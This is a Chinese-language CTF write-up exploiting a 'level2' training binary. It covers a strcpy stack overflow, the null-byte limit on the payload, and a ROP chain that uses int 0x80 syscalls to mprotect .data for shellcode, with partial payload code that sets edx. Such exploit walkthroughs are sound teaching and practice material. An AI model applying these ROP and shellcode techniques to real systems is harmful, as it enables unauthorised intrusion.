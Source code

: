 ### <a class="reference-link" name="0x00%20%E6%96%87%E4%BB%B6%E5%88%86%E6%9E%90"></a>0x00 文件分析

同理，以 **level2** 和 **tryharder** 登录靶机，

查看文件信息。level2 为静态链接文件，开了NX保护。

[![](https://p3.ssl.qhimg.com/t0139ee6b9f852cd55e.png)](https://p3.ssl.qhimg.com/t0139ee6b9f852cd55e.png)

查看题目说明，显然 **strcpy** 操作会导致变量 **name** 溢出，gdb调试查看溢出偏移为 **44** 个字节。

[![](https://p1.ssl.qhimg.com/t0188a2b74a7f5991dd.png)](https://p1.ssl.qhimg.com/t0188a2b74a7f5991dd.png)

此题需要注意的是，由于是 **strcpy** 函数，在拷贝时会以 **0x00** 字节为结束符。这就提示我们，当我们打入的 payload 中间含有 **0x00** 字符时，其后的 payload 则不会顺利拷贝，从而导致无法正常执行获取shell 。

[![](https://p5.ssl.qhimg.com/t014d4fcfae111c4785.png)](https://p5.ssl.qhimg.com/t014d4fcfae111c4785.png)

解题思路：参考[大佬的文章](https://www.anquanke.com/post/id/168739)中解 **level0** 的mprotect和read相配合的思想。
1. 修改数据段权限
1. 读入精心构造的shell，
1. 跳转到shell处执行。
注意，由于 **0x00** 的约束，**level0**直接调用函数的解题方式无法奏效，因此此题采用系统调用（`int 0x80`）的方式来实现第一步和第二步的操作。根据提示，我们可以通过 [ropshell网站](http://www.ropshell.com/) 来搜索二进制文件内我们所需的gadget。

### <a class="reference-link" name="0x01%20sys_mprotect%20%E4%BF%AE%E6%94%B9%20.data%20%E6%9D%83%E9%99%90"></a>0x01 sys_mprotect 修改 .data 权限

查看 **sys_mprotect** 信息

[![](https://p3.ssl.qhimg.com/t012e8577fbe8393325.png)](https://p3.ssl.qhimg.com/t012e8577fbe8393325.png)

由此，我们要布局的 payload 应完成如下的功能

```
edx = 0x7
ecx = 0x40
ebx = 0x80ca000
eax = 0x7d
```

实现 `edx=0x7` 的思想：在栈上放 **0xffffffff**，而后 `pop edx`，再通过8次 `inc edx`即可。

网站查询到所需的gadget如下：

[![](https://p0.ssl.qhimg.com/t0108f685935083aba1.png)](https://p0.ssl.qhimg.com/t0108f685935083aba1.png)

[![](https://p2.ssl.qhimg.com/t014cfa85c7282d3e18.png)](https://p2.ssl.qhimg.com/t014cfa85c7282d3e18.png)

实现 `edx=0x7` 的payload布局如下：

```
payload1 += pack(0x0000a476) #pop edx ; ret
payload1 += p32(0xffffffff) 
payload1 += pack(0x00006da1) #inc edx; add al, 0x83; ret
payload1 += pack(0x00006da1)
payload1 += pack(0x00006da1)
payload1 += pack(0x00006da1)
payload1 += pack(0x00006da1)
payload1 += pack(0x00006da1)
payload1 += pack(0x00006da1)
payload1 += pack(0x00006da1)
```

